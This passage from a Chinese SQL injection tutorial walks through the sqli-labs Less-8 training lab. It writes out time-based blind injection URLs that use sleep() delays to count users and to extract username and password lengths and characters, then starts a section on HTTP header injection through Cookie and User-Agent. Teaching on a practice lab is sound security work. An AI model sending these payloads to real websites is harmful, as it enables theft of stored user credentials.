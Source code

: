 这里可以顺带测一下users表中存在多少个用户，我这里我后期添加了一个，所以是15个用户。注意是从0开始计算。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(username) from users)=14,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/5F9AiTdaXwQegqh.jpg) 

猜测users表中username第一行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select username from security.users limit 0,1))=4,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/ank8U1yNMBl7Tuq.jpg) 

猜测users表中password第二行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select password from security.users limit 1,1))=5,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/pKfUS1voRY5jA4y.jpg) 

#### 3.4.4.11.**猜测某字段数据的名**

猜测users表中username第一行第一个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select username from security.users limit 0,1),1,1))=68,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/lWdZUfaeTSLVg2k.jpg) 

猜测users表中的password第二行第二个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select password from security.users limit 1,1),2,1))=100,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/xnQ7dMFUEwGuLA8.jpg) 

sleep(5),1，是错误的时候立即返回，若正确的时候延迟5秒返回。

1,sleep(5)，是正确的时候立即返回，若错误的时候延迟5秒返回。

 

## 3.5.**HTTP头部注入**

### 3.5.1.**HTTP头部注入基本概念**

#### 3.5.1.1.**HTTP头部注入原理**

后台开发人员为了验证客户端HTTP Header（比如常用的Cookie验证等）或者通过HTTP Header头信息获取客户端的一些信息（例如：User-Agent、Accept字段等），会对客户端HTTP Header 进行获取并使用SQL语句进行处理，如果此时没有足够的安全考虑，就可能导致基于HTTP Header的注入漏洞

#### 3.5.1.2.**常见HTTP头部注入类型**

Cookie：网站为了辨别用户身份、进行session跟踪而存储在用户本地终端上的数据。

User-agent：使服务器能够识别客户端使用的操作系统，浏览器版本等。
